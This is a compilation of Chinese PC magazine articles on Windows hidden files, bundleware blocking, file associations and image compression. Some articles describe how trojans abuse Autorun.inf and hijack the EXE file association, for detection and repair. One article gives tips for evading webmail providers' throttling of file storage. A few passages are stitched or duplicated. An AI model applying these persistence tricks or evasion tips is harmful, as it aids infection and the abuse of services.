单击“资源管理器”工具栏中的“搜索”按钮，在“要搜索的文件和文件夹名为”栏中输入 “Thumbs.db”，然后在“搜索范围”下拉框中选择“本机硬盘驱动器”，由于 Thumbs.db 文件是隐藏属性的文件，因此这里还需要单击展开“搜索选项”，在“高级选项”中勾选“搜索隐藏文件和文件夹”。最后单击“立即搜索”按钮即可找到系统中所有的 Thumbs.db 文件（见图1），将搜索到的文件全部删除即可。

> > **小提示**
> 在MailMagic中使用的邮箱不要使用OE或Foxmail接收邮件，否则会导致邮箱中上传的文件丢失，现在邮箱很容易申请到，建议申请专用于MailMagic的邮箱，如果确实需要让MailMagic和OE/Foxmail共用邮箱的话，要在OE/Foxmail中设置邮箱参数为“在服务器上保留邮件备份”。

### 玩转 MailMagic 必备技巧

一些邮箱为避免用户使用MailMagic类工具传输文件加重服务器负担，通常会采取一些限制措施，长时间大流量传输数据的邮箱账户会被冻结、甚至删除邮箱文件，特别是国内门户网站提供的免费邮箱更是如此，为了避免被冻结账户，笔者介绍一些经验技巧。

- 单击菜单“工具→选项”，在“连接”选项中设置“每上传/下载一个数据块后，等待的秒数”为“10”或者以上，以避免连续的数据传输。
- 虽然部分邮箱允许多线程上传下载，但对于国内的邮箱，还是尽量使用单线程为宜，否则比较容易被屏蔽，而且笔者发现对于163、126、TOM等门户邮箱，单线程通常即可达到普通ADSL上传下载的极限速度，根本不必开多线程。
- 许多邮箱虽然允许的最大附件体积很大，但笔者还是建议设置上传文件分割为每份10MB以下，一方面发生传输错误时的损失较小，另外10MB以下的邮件比较普遍，不容易被发现。
- 每个邮箱的空间使用率尽量控制在50%以下（可以多申请几个邮箱来扩容），同时，每次同一邮箱上传的数据量不要太大，尽量控制在500MB以下。
- 上传大量文件时，可以在发送邮箱中多选择几个邮箱账户，利用不同的服务器上传，以避免单一服务器排队发送造成的超时退回。
- 一些不太知名的大邮箱流量监管会相对宽松，一般不会出现邮箱冻结、邮件删除等现象，大家可以尝试寻找最适合自己的MailMagic专用邮箱。

（河南省正阳县 徐海斌）

大嘴提示：使用Thumbs.db时还会产生一个“奇怪”的现象，有时你会发现预览的缩略图与实际的图片内容不一样，这是由于相同名称的新图片覆盖原来的图片时，而缩略图没有及时更新，就会产生这种现象，纠正也很简单，在错误的缩略图上单击鼠标右键，选择“刷新缩略图”或直接删除Thumbs.db文件即可。

小菜听后也笑了，原来又是虚惊一场。这时小菜又想到在许多文件夹中都有一个名为 “desktop.ini” 的文件，不知道有什么用，以前就想问问大嘴，这次一并让他解释一下吧！

### 让文件夹更个性的 desktop.ini

大嘴告诉小菜，desktop.ini 其实也是一个亦正亦邪的“奇怪”文件，它本来的功能是用来自定义文件夹样式的，但有时也可能会被病毒所利用，产生严重危害。例如“新欢乐时光”、VBS/Soraci等脚本病毒就会利用它的自定义功能，在文件中添加可以执行的病毒脚本，使用户在浏览文件夹时被感染，不过现在这类病毒已经比较少见了，另外判断起来也比较容易，其最明显的特性就是会在每个文件夹中自动生成 desktop.ini 和 folder.htt 文件，而且删除后又会自动生成，并导致硬盘访问速度越来越慢，通常在允许使用Web文件夹样式的Windows 98/2000系统中比较容易感染此类病毒。

desktop.ini文件在个性文件夹方面是非常实用的，许多文件夹美化的软件都是利用它的原理来制作的，这里介绍两个应用。

#### 应用一：打造个性文件夹图标

电脑中安装有江民杀毒软件的朋友，可以在C盘看到一个名为 “KV-Back.vir” 的目录，它的图标很特别，一看就知道是杀毒软件专用的文件夹。其实这个文件夹之所以会有和普通文件夹不同的图标，正是利用了 desktop.ini 文件。我们同样也可以利用 desktop.ini 文件给其他文件夹换图标。

右击文件夹，选择“属性”，然后打开“自定义”选项卡，单击“更改图标”按钮，选择新的图标，或单击“浏览”按钮选择其他的图标文件，最后单击“确定”按钮，你就会发现文件夹图标立刻发生了变化，同时在文件夹中会自动生成一个 desktop.ini 文件，用记事本打开这个文件，可以看到如下内容：

```
[.ShellClassInfo]
IconFile=%ProgramFiles%\Windows Media Player\wmplayer.exe
IconIndex=0
```

其中 “IconFile” 描述了图标文件所在路径和名称，而 “IconIndex” 则描述了图标索引序号。利用这个功能，呆板枯燥的文件夹图标立刻变得丰富多彩，而且可以更直观地管理文件夹。

#### 应用二：打造个性文件夹背景和文字颜色

利用desktop.ini文件还可以进行更酷的个性文件夹修改，不过这个功能就需要手工修改了，我们继续利用上面的 desktop.ini 的文件，用记事本打开后添加如下内容，注意“//”后面的中文为注释，不必输入（见图2）：

```
[ExtShellFolderViews]
[{BE098140-A513-11D0-A3A4-00C04FD706EC}]
IconArea_Text=0x009999FF //文字颜色的 RGB 值
IconArea_Image=background.bmp //背景图片路径，可以使用JPG或BMP格式
```

大嘴提示：如果“我的文档”、“我的音乐”、“我的视频”等特殊文件夹变成了普通文件夹图标，或某个特殊文件夹的功能失效，很可能就是因为文件夹中的desktop.ini文件被无意删除或修改所致，可以从其他电脑中复制一份来恢复。

小菜这下明白了有些文件夹变漂亮的原因了，不过有些朋友电脑中的硬盘盘符图标也给换了，于是小菜制作了desktop.ini文件放到硬盘分区根目录中，但却不能修改盘符图标，这是怎么回事呢？

### 暗藏杀机的 Autorun.inf

“你能够触类旁通很好，不过这次搞错了。”大嘴告诉小菜。其实硬盘图标并不是通过 desktop.ini 文件修改的，而是利用另外一个文件 Autorun.inf，在光盘根目录下经常会看到这个文件，它是用来设置光盘自动运行程序和图标的，也可以用在硬盘分区上。例如要修改D盘盘符图标，则在D盘根目录下新建一个 Autorun.inf 文件，使用“记事本”编辑其内容如下：

```
[autorun]
icon=hdd1.ico //定义图标文件路径
```

重启系统后就可以看到硬盘图标的变化了。其实在Autorun.inf文件中通常还会有一行 “open = ”，它可以表示要双击此驱动器时自动运行的程序文件路径和名称，这个功能有时就会被恶意程序利用来运行恶意程序，这是相当危险的，因此当你的硬盘分区根目录中出现Autorun.inf文件时一定要高度警惕，最好用“记事本”打开查看其内容，如果有 “open” 字样，那就很值得怀疑了。

#### 实例：Autorun.inf 文件攻击解决方法

在讲到Autorun.inf文件时，还要提到另外一个“奇怪”的现象：一些朋友打开“我的电脑”后，双击磁盘盘符却不能打开，系统提示“Windows 无法找到 Desktop.exe……”（提示的文件名可能会与此不同），只能右击并选择“打开”才可以查看文件。其实这正是一种木马利用Autorun.inf文件的典型症状，它会在硬盘分区根目录中写入自动运行木马的Autorun.inf文件，当双击硬盘分区时就会自动运行木马程序，而当木马源程序被杀毒软件删除时，就会导致无法打开磁盘的故障。

知道了原理，解决方法也很简单了。首先在“文件夹选项”中设置显示所有文件，这样就能在硬盘分区根目录中看到Autorun.inf文件，用“记事本”打开该文件，记下“open”行对应的程序路径和名称以便删除木马源程序。然后删除Autorun.inf文件。通常木马程序还会在注册表中写入键值，根据提示的名称“Desktop.exe”在注册表中进行搜索，第一个找到的数据很可能是[HKEY_CLASSES_ROOT\Drive\shell]主键下，删除该主键下包含“Desktop.exe”的整个分支即可。

> > 大嘴提示：关闭硬盘的自动运行功能是防范Autorun.inf文件攻击的有效方法，我们可以使用微软的TweakUI工具，打开“我的电脑→自动播放→驱动器”，在右边的列表中取消所有的硬盘盘符前的勾选，单击“应用”按钮即可。

（软件 DIY）

## 我比你更无赖！巧治捆绑软件

系统中被强行安装各种软件的情况随处可见。在浏览网页时，一个不经意的点击就可能让你的IE多了几个工具条按钮；安装共享软件时，如果一路点“下一步”则很有可能系统中已经被安装上了“中文域名”之类的软件。这些还算属于非常尊重用户的情况，更有甚者则完全不征求用户意见，比如共享软件的安装程序根本没有提供是否同时安装捆绑软件的选项，要使用这类软件就必须同时安装捆绑软件，而网页中捆绑的插件类软件似乎在技术上也有了“新突破”，比如某博客网站上的“博采网摘”插件可以无需用户确认即安装（卸载方法可参考本刊2005年第15期的《博客变黑客？还我系统清白》）。

网页上的捆绑软件还比较容易解决，使用具有“ActiveX插件安装屏蔽”功能的浏览器、安装插件屏蔽工具Upiea，都可以有效阻止。不过共享软件中捆绑的插件就没这么容易解决了，只能在安装时多留意选项并且同时祈祷软件作者没有强制安装的欲望。被强制安装之后，再要卸载就没那么简单了，即使自带卸载程序也很有可能卸载不干净，所以要尽可能赶在捆绑软件进驻系统前就做好防范。

### 灵感源于“访问拒绝”

在Windows XP中，每个分区里都有一个“System Volume Information”文件夹，这个文件夹无法直接访问。默认情况下，双击打开它时系统就会提示“无法打开System Volume Information。访问拒绝”，这是因为在默认情况下，系统管理员组没有对这个文件夹的访问权限。假设用户A是当前系统的已登录用户，他要将一个软件安装到c:\abc中，但用户A对c:\abc没有访问权限，那么以用户A身份运行的安装程序也没有权限对这个安装目录进行写入，也就是说软件安装失败了。同样原理，我们也可以让捆绑软件的安装失败。

要利用权限使捆绑软件的安装失败，则必须首先保证以下几点：

- 必须保证系统是清洁的，也就是说还没有被强制安装捆绑软件，本文介绍的方法是用来防范而非卸载的。
- 必须是Windows 2000或者Windows XP专业版，家庭版不包含高级权限设置。
- 系统所在分区的文件系统为NTFS。
- 如果是Windows XP，需要在“资源管理器”的菜单“工具→文件夹选项”中打开“查看”选项卡，取消“使用简单文件共享（推荐）”的勾选。
- 同样是在“文件夹选项”中，取消“隐藏已知文件类型的扩展名”的勾选。

### 教你要无赖：在系统中占地为王

#### 1. 霸占目录文件权限

捆绑软件要安装到系统中，无非是两条途径：程序目录和系统目录。以3721为例，它首先会在系统分区（一般为C盘）的Program files目录下建立名为3721的新目录，然后将一些系统底层相关的DLL文件写入到系统目录。我们所要做的就是在3721建立目录或者拷入文件之前，先将目录建好并禁止写入，将文件建好（空文件）禁止更改。

第一步：在系统分区的Program files目录下建立名为“3721”的子目录，右击其选择“属性”，在“安全”选项卡上方的“组或用户名称”中选中你当前登录的用户名，本例中为Administrator，在下方的权限栏的“拒绝”列中勾选“完全控制”。

第二步：设置3721目录权限以屏蔽文件写入很简单，可是捆绑软件还会向系统目录（即system32目录）中写入文件怎么办？如果简单地将系统目录的权限设置为访问拒绝，那正常的程序也无法运行了，甚至可能会导致系统崩溃。所以要防止捆绑软件向系统目录中写入文件，我们就必须建立与捆绑软件欲写入文件的文件名相同的空文件，然后设置访问拒绝。不过文件数量众多，与其逐个建立并设置，倒不如把所有工作交给批处理来完成。以下是屏蔽3721的完整批处理代码，将系统路径和用户名根据实际情况修改后保存为BAT文件执行即可。

```
@echo off
md c:\progra~1\3721
@echo y|cacls c:\progra~1\3721 /d administrator
md c:\windows\downlo~1\3721
@echo y|cacls %systemroot%\downlo~1\3721 /d administrator
type nul> %systemroot%\cnsinfo.dat
@echo y|cacls %systemroot%\cnsinfo.dat /d administrator
type nul> %systemroot%\system32\cns.dat
@echo y|cacls %systemroot%\system32\cns.dat /d administrator
type nul> %systemroot%\system32\cns.exe
@echo y|cacls %systemroot%\system32\cns.exe /d administrator
type nul> %systemroot%\system32\cns.dll
@echo y|cacls %systemroot%\system32\cns.dll /d administrator
type nul> %systemroot%\system32\CnsMinKP.sys
@echo y|cacls %systemroot%\system32\CnsMinKP.sys /d administrator
type nul> %systemroot%\downlo~1\zmod.dll
@echo y|cacls %systemroot%\downlo~1\zmod.dll /d administrator
type nul> %systemroot%\system32\drivers\cdntran.sys
@echo y|cacls %systemroot%\system32\drivers\cdntran.sys /d administrator
```

#### 小提示

我们将目前比较流行的捆绑软件的安装路径及在系统目录中写入的文件收集整理成了表格，大家可按照上文的方法制作出自己的“捆绑软件防火墙”。

| 软件名称 | 安装目录 | 写入系统的文件 |
| :--- | :--- | :--- |
| 3721 | C:\Program Files\3721 | C:\WINDOWS\CnsInfo.dat, C:\WINDOWS\System32\cns.dat, C:\WINDOWS\System32\cns.exe, C:\WINDOWS\System32\cns.dll, C:\WINDOWS\System32\CnsMinKP.sys, C:\WINDOWS\Downloaded Program Files\3721\zmod.dll, C:\WINDOWS\System32\Drivers\cdntran.sys |
| 百度搜霸 | C:\Program Files\baidu | C:\WINDOWS\System32\BDSrHook.dll, C:\WINDOWS\System32\BDSrchHook.dll, C:\WINDOWS\System32\BDShHook.dll, C:\WINDOWS\System32\BDMisc.dll, C:\WINDOWS\System32\BDDownEx.dll, C:\WINDOWS\System32\BDPlugReg.dll, C:\WINDOWS\System32\BDSohook.dll, C:\WINDOWS\System32\BDSurvey.dll |
| 中文上网 | C:\Program Files\cn- | C:\WINDOWS\System32\cnwk.dll, C:\WINDOWS\System32\cnsio.dll, C:\WINDOWS\System32\cnsmin.dll, C:\WINDOWS\System32\cnsnt.dll, C:\WINDOWS\System32\cnsc.exe, C:\WINDOWS\System32\cnsp.dll |
| 一搜工具条 | C:\Program Files\YISOU | C:\WINDOWS\System32\yisbar.dll, C:\WINDOWS\System32\yisbr.dll, C:\WINDOWS\System32\yisbr.exe |

#### 2. 我的注册表会“骗人”

用上文方法进行文件权限设置后，捆绑软件即使被安装，也失去了实际功能。而网上有很多称为“IE插件免疫器”的软件，这些软件何以能够达到免疫的效果呢？

原来这些ActiveX插件在安装后，系统注册表的[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility]下就会留下该插件的CLSID（可以理解为插件的“身份证”）键值，如3721的CLSID是“{B83FC273-3522-4CC6-92EC-75CC86678DA4}”，这样再次访问捆绑了插件的网页时IE就会认为系统中已经安装了此插件而不再提示安装。这也就是说如果事先在注册表中建立好这个键值，那就能阻止这类插件的安装提示，不过由于CLSID的收集比较困难，还是推荐使用现成的免疫工具upiea。

（孙齐源）

## Zoundry Blog Writer 让你离线写博客

有人说2005年的网络是用来写作的，确实如此，Blog的大红大紫使很多人都成为了Blogger。为了让自己的成果能长久保存，许多人会选择比较大的Blog服务供应商，如Blogger.com等，但有时由于网络或网站本身的问题，在提交写好的文章时却意外地转到了“该页无法显示”页面，辛苦敲出来的大段内容都化为乌有不得不让人心寒，但这类问题在你使用Zoundry Blog Writer（以下简称ZBW）之后都将被彻底化解。

### Zoundry Blog Writer 小档案

- 软件版本：0.9.133
- 软件大小：4540KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.zoundry.com/download/zBlogWriter.exe

此软件目前支持的Blog网站有大家熟悉的Blogger.com、基于Wordpress（国内用此程序搭建的Blog网站很多）和LiveJournal等多种Blog程序的网站。

### 第一步：配置Blog账户

运行程序后单击“Set up your Blog account”（注册你的Blog账户），在弹出窗口单击“new account”（新账户），然后按向导提示选择Blog网站的网址并输入自己Blog账号和密码，需要注意的是这个软件在中文系统下界面显示有些问题，向导中的输入框前竟然都显示“Account”，正确次序如图1所示，完成后ZBW会从服务器正确读取用户的账户信息，可以建立多个账户。

如果是基于WordPress等程序的网站，则在选择WordPress后还需要输入其接口地址，如WordPress的接口地址通常为：http://网站地址/xmlrpc.php。



不怕数据丢失了。

### 第二步：编辑文章

现在就可以像在网页中一样，在ZBW窗口方便地编辑新文章了，还能设置字体、插入链接/图片等，单击“Preview”可以预览文章发表后的样子。编辑完成后既可以保存在本机也可以立刻上传到网站，这种本地客户端操作十分方便大家制作“长篇大论”，再也不怕数据丢失了。

### 第三步：提交文章

如果要发表文章，单击“Post → Publish Entry”（张贴→发布条目）（选择“Download Recent Posts”可以下载文章），在弹出窗口，选择“General”（常规）标签，在Blog项选择刚才设置的Blog账户，最后点击POST提交即可（见图2），现在登陆自己Blog就能看到刚刚提交的文章了。



（平淡）## Vista正式版未出先遭盗版

Windows Vista测试版在网上已经流传了好几个月了，可是一些热衷于新系统测试的发烧友外，很少会有人真正去享受这款号称有史以来最漂亮的Windows操作系统。原来无外乎硬件配置不够高；对测试版本的兼容性和稳定性不放心。现在不必再担心了，无需苛刻的硬件需求，也没有大量BUG的隐患，只需安装Vista Inspirat Shell Pack(下载地址：http://www.onlinedown.net/soft/41874.htm)，就能把你的Windows XP扮靓成Windows Vista!

此软件对简体中文版本的Windows支持非常好，请放心安装，安装步骤非常简单，但笔者需要提示的是：在软件安装过程中，系统中安装一些实时监控软件可能会提示有程序正要修改系统的Shell与注册表，这是正常的美化修改而非病毒行为，所以可以点击“允许”。软件安装完毕后需要重启，待重启完毕后，你就会进入另一个“世界”，一个精美、时尚的Windows Vista系统将会展现在你眼前！曾经试用过Windows Vista的朋友就会发现，这个XP系统主题真的与Vista非常相似。至于美化的细节，请跟随笔者来一探究竟。

- 1. 半透明风格完美模仿

成功登录系统后，笔者发现其桌面与真正的Windows Vista是一样的，包括默认的图标、壁纸、任务栏等。并且该软件还附带了ObjectDock软件，这是一个近似于苹果操作系统的任务条工具，附带在Windows Vista的主题中，显得更加时尚和美观，而且此功能也并非华而不实，用户可以在此任务条中为自己常用的软件和文件夹建立快捷图标，非常便于操作。在开始菜单中，传统的框架还是没有改变，只是改变了一下风格，这里与Windows Vista的界面也是一样的。系统中的部分图标有了明显的变化，图标都是Vista的半透明风格的，给用户一种如水晶般透彻的感觉。

## 瞬间XP变 Vista

Vista文件夹中增加的很多新功能，在这个改装了的Windows XP中还是实现不了的，这也是这个“假冒”Windows Vista系统比较遗憾之处。

- 4. 细节做得很到位

尽管我们不能奢望一个外观软件能够把Windows Vista的先进功能也装进Windows XP里，但是不得不承认的是，这款美化包在细节的处理上也很到位。比如在复制文件时显示的进度条窗口也有了小小的变化，首先在图标改变为了与文件夹统一的图标（不像某些美化软件在这时候就“露馅”了），随后是进度条的颜色为绿色，液体般流动的感觉让我们在等待复制完成时也不会觉得不耐烦。

笔者的话：漂亮的Windows Vista主题大家已经一睹为快了，靓丽的风格界面相信还是会吸引很多敢于使用测试版本的用户，并且除了外观，Windows Vista的新功能也非常值得期待，但目前Windows Vista毕竟还处于一个早期的测试阶段，有很多未知的BUG，所以笔者建议普通用户还是尽量不要把Windows Vista作为实际操作使用的系统。在正式版发布之前，就先用这个“盗版”的风格来过瘾吧！

（山东 韩煜尘）

## 双击背后的秘密——文件关联

这几天屏幕时常闪烁，好像键盘输入也有延迟，难道中毒了？小菜在电脑前越发不安。试着把杀毒软件升级到最新版本，然后对硬盘进行了一次完整扫描，扫描结果证实了小菜的想法：发现木马病毒！幸好杀毒软件已经将其查杀了，心有余悸的小菜又忍不住暗自庆幸。不过当他准备打开QQ和大嘴吹嘘杀毒经历时，却发现双击QQ快捷方式后不能运行，系统提示选择打开方式(见图1)，再试试其他程序，发现所有可执行程序都出现了同样问题，无法运行，这可怎么办？慌了神的小菜赶快打电话让大嘴火速前来“救援”。



大嘴很快就赶到了，看了看屏幕说：“这是木马破坏EXE文件关联后常见的‘后遗症’，所有EXE文件均无法运行！我们先看看COM文件有没有被木马关联，如果没有的话就好办了。”说着右击开始菜单，选择“资源管理器”，在C:\WINDOWS目录找到“注册表编辑器”程序文件“regedit.exe”，按F2将其改名为“regedit.com”，然后双击就可以运行“注册表编辑器”了，看来COM文件还没有被关联。首先定位至[HKEY_CLASSES_ROOT\.exe]主键，右边的默认键值显示为“exefile”，这是正常的，然后再打开[HKEY_CLASSES_ROOT\exefile\shell\open\command]主键，右边的默认键值数据显示为“C:\Windows\Explorer.exe "%1" %*”(见图2)，问题就出在这里了，木马程序修改了这里的文件关联设置，添加了自启动数据(Explorer.exe即为伪装的木马程序)，把它修改为正确的“"%1" %*”，然后再运行QQ，一切正常了！



看着大嘴的操作，小菜有点摸不着头脑，于是问道：你刚才说文件关联被破坏，究竟什么是文件关联呀？大嘴解释说，文件关联就是将一种类型的文件与一个可以打开它的程序建立起来的一种依存关系，简单说，文件关联决定了一种类型的文件双击时用什么程序打开。举个例子来说，我们双击TXT文件时，系统会自动使用“记事本”打开它，这是因为在系统中设定了TXT文件类型的关联程序是“记事本”，如果你想双击TXT文件时使用WORD程序打开，就需要修改文件关联设置。当我们安装了ACDSee以后，双击BMP、JPG图片时，都会自动使用ACDSee打开，这些都是文件关联在起作用。文件关联的配置数据都保存在注册表中，下面我以TXT文本文件的关联数据为例详细介绍一下。

## 文件关联怎样“连”



一个“xxxfile”入口主键)，这个主键就是用来设置文件关联相关数据的，在右边可以看到其默认键值为“文本文档”，这就是TXT文件显示在“资源管理器”的“类型”栏中的文件类型，通常在标识主键下会有两个重要主键：

- 1.DefaultIcon 主键：它的默认键值是用来设置文件类型图标的，通常会使用关联程序内置的图标，可以方便识别文件关联。
- 2.Shell 主键：这是文件关联的“核心”所在，在这个主键下面会有一个“open”主键，在open主键下面还会有一个“command”主键，这个主键的默认键值就是用来定义此种类型文件关联的执行程序的，比如TXT文件的“command”主键的默认键值是“%SystemRoot%\system32\notepad.exe %1”(见图4)，也就是告诉系统使用“notepad.exe”(即“记事本”)来打开TXT文件。注意这里的“%1”是非常重要的参数，它是一个命令行变量，它代表的就是双击操作指向的文件名，如果不加此参数的话，双击文件后只能运行关联的程序，而不会自动打开双击的文件。



大嘴提示：在Shell主键下通常还会有Edit、Play、Print等键值，它们可以设置文件类型相关联的其他打开方式，这些打开方式将显示在文件类型的右键菜单中。Shell主键的默认键值则定义了默认的打开方式。

键值数据用来设置双击文件时的打开方式，设置为空表示自动使用open主键下设置的打开方式，如果设置为edit，则会使用edit主键下设置的打开方式。利用这点，也可以快速改变一些文件的双击打开方式，例如BAT文件双击时的默认操作为“运行”，我们想把它改为双击用“记事本”打开编辑，则将[HKEY_CLASSES_ROOT\batfile\shell]主键的默认键值设置为“edit”即可。

## 文件关联背后暗藏“杀”机

由于文件关联可以用来启动程序，所以常被木马用来启动服务程序，现在几乎所有木马都会利用文件关联，因此掌握文件关联的分析和修复，对于分析和清除木马是非常有用的。一般来说，木马修改利用的是系统中经常使用的文件类型，例如TXT、EXE，其他文件类型还包括COM、PIF、SCR、HLP等。尤其是EXE文件关联型木马，一旦中招，后果很严重：运行任何程序时都会自动启动木马，而且当木马被清除时，还会造成类似小菜遇到的这种所有EXE文件无法执行的情况！

### 1. 完全瘫痪！求助“带命令行提示的安全模式”

不过前面小菜遇到的情况是比较幸运的，如果木马连COM文件关联也进行了修改，就不能使用EXE改名COM的方法来解决了，当然，解决方法也是有的。

- 第一步:启动系统时按F8键打开高级启动选项菜单，选择“带命令行提示的安全模式”引导系统(见图5)，可以自动打开“命令提示符”。
- 第二步:在“命令提示符”中输入“ftype exefile”查看exefile数据有没有被修改，正常应显示为“exefile="%1" %*”，如果不是这样则需要输入“ftype exefile="%1" %*”命令使EXE类型的关联还原。
- 第三步:再输入命令“assoc .exe”(注意中间有空格)查看文件关联入口数据，如果显示为“.exe=exefile”，则说明这个数据是正常的，如果被修改了，则输入“assoc .exe=exefile”命令重新建立入口关联(见图6)。
- 第四步:重启系统后就能正常运行EXE程序了，打开“注册表编辑器”，将COM文件及其他被恶意关联的文件类型修复，并清除木马程序残余文件即可。



```

Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>ftype exefile="%1" %*
exefile="%1" %*

C:\WINDOWS\system32>assoc .exe
.exe=exefile

C:\WINDOWS\system32>

```



第四步:重启系统后就能正常运行EXE程序了，打开“注册表编辑器”，将COM文件及其他被恶意关联的文件类型修复，并清除木马程序残余文件即可。

> > 大嘴提示:右击任意类型文件,选择“打开方式→选择程序”，单击“浏览”按钮选择“C:\WINDOWS\system32\cmd.exe”，点击“打开”按钮就能在EXE文件不能运行的情况下打开“命令提示符”。

打开“命令提示符”，并使用以上命令进行修复。

### 2. 辨别木马的多种“障眼法”

木马程序利用EXE文件关联时可能会采用两种修改方法:第一种方法是直接修改exefile中的“%1” %*数据，添加木马的执行程序，例如小菜遇到的就是这种情况，这种方法比较容易被发现；另外一种方法则是修改exe文件类型的入口指向，使其指向一个另外的标识主键，例如木马自建的mmfile，而mmfile的设置正是用来启动木马程序的，这种情况经常被大家忽略，因此大家在检查注册表中文件关联数据时，还应检查[HKEY_CLASSES_ROOT\.exe]主键的默认键值是否指向exefile，利用前面介绍的“assoc”命令可以快速检查这个设置。

### 3. 文件关联检查修复一条龙

木马修改文件关联以后，还会自动将文件打开请求转交给原来的关联程序，所以我们根本感觉不到文件关联已经被修改，而手工检查注册表中的文件关联数据又是件比较麻烦的事情，如何才能快速检查出系统中的文件关联被修改呢？这里大嘴推荐给大家一款非常好用的免费工具——System Repair Engineer(以下简称SRE)。

System Repair Engineer 小档案

- 软件版本:1.1.0.269
- 软件大小:263KB
- 软件性质:免费软件
- 适用平台:Windows 9x/2000/XP
- 下载地址:http://www.kztechs.com/sreng/download.html
- 软件备注:上面提供的是SRE的下载页面，请根据你使用的操作系统下载对应的版本。

SRE在运行后会自动检查常见文件类型的关联设置情况，在界面中单击“系统修复”按钮，在右边的“文件关联”选项卡下即可看到文件类型关联情况(见图7)，如果“状态”栏显示为“错误”，就说明该文件类型关联已经被修改，同时该项目被自动选中，点击“修复”按钮即可进行自动修复。



> > 大嘴提示:一些木马还会利用Unknown(未知)文件类型关联，不过很少有相关文章介绍，Unknown的数据比较特殊，它的设置位于[HKEY_CLASSES_ROOT\Unknown\shell\openas\command]主键，默认的默认键值数据应为“%SystemRoot%\system32\rundll32.exe %SystemRoot%\system32\shell32.dll,OpenAs_RunDLL %1”(Windows 9x系统则是“C:\WINDOWS\rundll32.exe shell32.dll,OpenAs_RunDLL %1”)，这行命令的作用是，当在系统中双击未知文件类型时，自动启动“打开方式”窗口让你手工选择用哪个程序来打开该文件。当发现其键值数据有变化时，也要及时恢复。

## 文件关联之乱“连”

有时文件关联也会造成麻烦，例如WinRAR安装后会自动关联ISO文件，然而WinRAR对ISO文件中的中文支持并不理想。另外，经常安装文件和卸载文件，也会造成文件关联的紊乱，这时就需要自己手动修改文件关联了，我们可以按照前面介绍的知识，直接在注册表中进行修改，不过这对于大部分菜鸟朋友来说会有些难度，除此之外也有更方便的方法来修改文件关联。例如我使用的是绿色免安装版的UltraISO，下面将它和ISO文件进行关联。

和ISO文件进行关联:

### 1. 打开方式法

在资源管理器中选择任意ISO文件，单击鼠标右键(Windows 9X需要按住“Shift”键再单击右键)，选择“打开方式→选择程序”，在弹出的打开方式对话框中，单击“浏览”按钮选择“Ultraiso.exe”文件，注意一定要勾选“始终使用选择的程序打开这种文件”(见图8)，最后点击“确定”按钮保存即可。



### 2. 工具软件法

这里大家推荐大家使用专用的文件关联管理工具——File Association Manager(以下简称FAM)，它可以更方便、更灵活地创建和修改文件关联。

File Association Manager 小档案

- 软件版本:2.0 汉化版
- 软件大小:997KB
- 软件性质:共享软件
- 适用平台:Windows 9x/2000/XP
- 下载地址:http://www.hanzify.org/index.php?Go=Show::List&ID=6276

运行FAM后，在“扩展名”栏中输入“ISO”，就可以在窗口中看到ISO文件已经和WinRAR建立关联。这里不能直接修改右下角的关联程序，因为还有其他诸如RAR、ZIP等压缩文件要使用它来打开。需要先单击“文件类型”菜单中的“新建”按钮，弹出创建新的文件类型对话框，在“新建文件类型 ProgID”栏中输入“isofile”，并在“易于理解的名称”栏中输入“ISO映像文件”(见图9)，单击“确定”保存，这个步骤就相当于在[HKEY_CLASSES_ROOT]根键下创建了“isofile”主键。接下来单击“扩展名”菜单中的“更改关联”，在“更改为”下拉框中输入刚才创建的文件类型“isofile”即可。



在“扩展名”栏重新输入“ISO”，这时可以看到显示的文件类型关联已经变成“isofile”了，接下来我们还需要添加关联打开方式，在“操作”栏下面单击鼠标右键选择“新建”，输入名称为“open”，单击“浏览”按钮选择“Ultraiso.exe”程序(见图10)，点击“保存”按钮即可。最后还可以单击窗口中的“图标”按钮为ISO文件选择一个新图标。

## 远离发图限制，图片极速“瘦身”

出游归来，第一件事恐怕就是把数码相机中的一大堆照片给导出来，QQ好友们已经迫不及待地想一起分享“出游成果”了。而QQ群中发图片有文件大小限制，以文件方式逐个传送又太浪费时间。今天要教大家几种免费的图片文件缩减方法，操作简单且免安装体积庞大的图形处理软件。

### 瘦身第一式：画图工具

#### 1.格式变身JPG

大多数情况下，BMP位图格式的文件体积相对于JPG有损压缩格式的文件大得多，如果照片采用BMP格式，可用Windows自带的“画图”工具（开始→程序→附件→画图）的“另存为”功能将文件格式更改为JPG格式，文件大小可以进一步减小。Windows XP/2003的“画图”均支持保存JPG格式，Windows 2000则需要移植文件才能支持（可参考本刊2004年第17期的《三步给Windows 2000画笔程序换“芯”》）。

#### 2.尺寸也“缩水”

经过上面格式转换，如果图片文件还是过大，就要采用如下方法：用“画图”打开要修改的图片，选择菜单“图像→拉伸/扭曲”，将水平和垂直的拉伸根据实际需要进行缩小，为使图片不变形，水平和垂直的缩小的幅度应该一致（见图1），修改尺寸后，图片大小就会令你满意了。



### 瘦身第二式：发送到邮件接收者

以上方法对于压缩单一文件大小还可以，但如果要处理一大堆图片时就显得力不从心了。对于图片的批量压缩可以先将需要压缩的图片保存在一个文件夹中，选中这些图片，右击并在弹出菜单中选择“发送到→邮件接受者”选项，在弹出的“通过电子邮件发送照片”对话框中勾选“缩小所有照片”，此处还可以在左下角单击“显示更多选项”进一步选择图片的大小（见图2），然后单击“确定”，系统就会自动将这些图片转换成体积较小的JPG格式文件，并弹出一个“发送电子邮件”的邮件撰写窗口，只要将附件中的这些转换好的JPG文件提取出来即可。



### 瘦身第三式：Word批量压缩

Word虽然不是系统自带的，但也是多数人必装的软件之一，它也能实现图片的批量压缩。

将要压缩的图片保存到同一文件夹中，接着打开Word，选择菜单“插入→图片→来自文件”选项，在打开的窗口中按“Ctrl+A”组合键全选图片文件（还可以在资源管理器中选中这些图片，用鼠标左键拖拽到打开的Word页面里完成图片插入）并确认，这样就把需要压缩的图片全部插入到Word中了，接着选择菜单“文件→保存”，在“保存类型”中选择“Web页（*.htm;*.html）”（见图3），单击保存。



进入保存该文件的文件夹，比如“我的文档”里的“Doc2.files”（刚刚保存的文件名），里面有image001.jpg、image002.jpg等多个图片，image001.jpg和image002.jpg为内容相同的两张图片，image001.jpg是原始图片，image002.jpg为压缩后的图片，其他图片类似，比较这两张图片可以发现原图片为730KB，而压缩后的图片只有47.6KB，图片文件已经成功“瘦身”了，无论是用QQ传送图片，还是用邮件发送图片，都容易多了。

